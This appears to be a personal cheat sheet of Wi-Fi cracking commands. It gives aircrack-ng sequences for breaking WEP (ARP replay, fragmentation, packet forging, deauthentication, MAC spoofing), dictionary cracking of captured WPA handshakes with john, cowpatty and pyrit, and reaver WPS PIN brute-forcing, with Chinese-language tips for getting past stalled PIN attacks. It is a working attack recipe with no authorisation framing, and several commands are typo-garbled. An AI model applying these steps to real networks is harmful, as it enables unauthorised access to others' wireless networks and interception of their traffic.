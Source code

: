 ```yaml
---
title: Wifi Crack summary
date: 2020-02-02 11:40:40
categories:
tags:
---
```

wep[fms,ptw](2w ivs)
airmon-ng start wlan0
airedump-ng -c 1 --bssid C1:3A:35:4D:E8:C0 -w ./weptest1 mon0
aireplay-ng --arpreplay -b C1:3A:35:4D:E8:C0 -h F8:D3:A8:30:32:DCmon0
aircrack-ng ./weptest-01.cap -0
wep[no client con]
airodump-ng -c 1 --bssid C1:3A:35:4D:E8:C0 -w ./weptest2 mon0
ifconfig mon0 |grep HWaddr
aireplay-ng -1 0 -o 1 -e n-f-u -a C1:3A:35:4D:E8:C0 -hF8:D3:A8:30:32:DC mon0
  aireplay-ng -5 -b C1:3A:35:4D:E8:C0 -h F8:D3:A8:30:32:DC mon0
  or aireplay-ng -4 -b C1:3A:35:4D:E8:C0 -h F8:D3:A8:30:32:DC mon0
packetforge-ng --arp -a C1:3A:35:4D:E8:C0 -h F8:D3:A8:30:32:DC-k 255.255.255.255 -l 255.255.255.25                                                       5 -y fragment-23-32134.xor -wforged_arp
aireplay-ng --interactive -F -r ./forged_arp mon0
aircrack-ng ./weptest2-01.cap -0
wep[hidden ,filter mac]
airmon-ng sta:rt wlan0
airmon-ng start mon0
airodump-ng -c 1 --bssid C1:3A:35:4D:E8:C0 --output-format pcap -wweptest3 mon0
aireplay-ng -0 3 -a C1:3A:35:4D:E8:C0 -c F8:D3:A8:30:32:DCmon0  (explore ssid)
aireplay-ng --arpreplay -b C1:3A:35:4D:E8:C0 -h F8:D3:A8:30:32:DCmon0
aircrack-ng ./weptest3-01.cap
iwconfig wlan0  essid not-for-u key32:35:4D:E8:C0:D3:A8:30:32:D1
iwconfigwlan0
airdecap-ng -w 32:35:4D:E8:C0:D3:A8:30:32:D1./weptest3-01.cap
tshark -i mon0 -R "wlan.fc.type_subtype == 0x0b"-V
ifconfig wlan0 down
ifconfig wlan0 hw ether F8:D3:A8:30:32:DC
ifconfig wlan0 up
iwconfig wlan0 essid not-for-u key32:35:4D:E8:C0:D3:A8:30:32:D1
iwconfig wlan0
function1(receive crack):
john --wordlist=wordlist.txt --rules --stdout |cowpatty -f - -snot-for-u -r wpatest.cap -2
[scattered list]
genpmk -f wpadic -d wpadic.genpmk -s not-for-u
cowpatty -d wpadic.genpmk -r wpatest.cap -s not-for-u -2
[pyrit]
pyirt -e n-f-u create_essid
pyrit -f wpadic.txt import_passwords
pyrit -r wpatest.cap -e n-f-uattack_batch
        or pyrit -i wpadic.txt -o - -e n-f-u passthrough |cowpatty -d - -2-s n-f-u -r wpatest.cap
[WPS reaver use]
airmon-ng start wlan0     //开启监听模式
wash –i mon0         //查看开启wps的无线路由器
airodump-ng mon0          //查看周边AP信息（抓包）
reaver –i mon0 –b MAC –a –S –vv –d 3 –t 3  //开始穷举PIN码
reaver –i mon0 –b MAC –a –S –vv –d 0        //修改默认延迟为0秒
reaver –i mon0 –b MAC –a –S –vv –p xxxx     //从前4位PIN码开始
reaver -i mon0 -b MAC -a -S -vv -d 3 -t 3      //timeout delay

Pin码重复出现死循环解决之道:
当你看到PIN到一定程度，窗口里的PIN码不变、进度百分比也不走，那么，保持原窗口不变，再点击ROOTSHELL图标，新开一个PIN窗口，输入“reaver -i mon0 -b （正在PIN的目标MAC） -a -s -vv ”(注意：这里“S”要小写) 那么，你就会发现原来PIN的窗口，PIN码开始改变，进度开始前进了！而且PIN的时间也大为缩短了！如果是破解到99.99%，执行此部操作就马上弹出正确的pin码和wifi密码，以及路由器的SSID。
当你看到PIN到一定程度，窗口里的PIN码不变、进度百分比也不走，那么，请Ctrl+C停止，然后点击[Reaver]按钮，在弹出的窗口中输入“-a -s –vv“ (注意：这里“S”要小写) 那么，你就会发现原来PIN的窗口，PIN码开始改变，进度开始前进了！而且PIN的时间也大为缩短了！,如果是破解到99.99%，执行此部操作就马上弹出正确的pin码和wifi密码，以及路由器的SSID。

若到90.9%或99.9%还是不出，也可以试试“reaver -i mon0 -b (正在PIN的目标MAC) -v -a -n [-c]”
时间及经验总结，基本90.9%和99.9%的死循环，已经100%成功了.

PIN破密对信号要求极为严格，如果信号稍差，可能导致破密进度变慢或者路由死锁等（重复同一个PIN码 或 timeout）。
特别是1、6默认频道中，有较多的AP，相互干扰。因此，确定网卡放置的最佳位置、方向、角度十分重要。
破解过程中重复同一个PIN码或timeout可随时随地按Ctrl+C终止，reaver会自动保存进度。
若继续破，则再次在终端中发送: reaver -i mon0 -b MAC -vv，这个命令运行后，会让你选y或n，选y后就继续了。
当reaver确定前4位PIN密码后，其工作完成任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了。总共一万一千个密码。
如果，90.9%进程后死机或停机，请记下PIN前四位数，用指令：
reaver -i mon0 -b MAC -a -vv -p XXXX(PIN前四位数)会从指定PIN段起破密。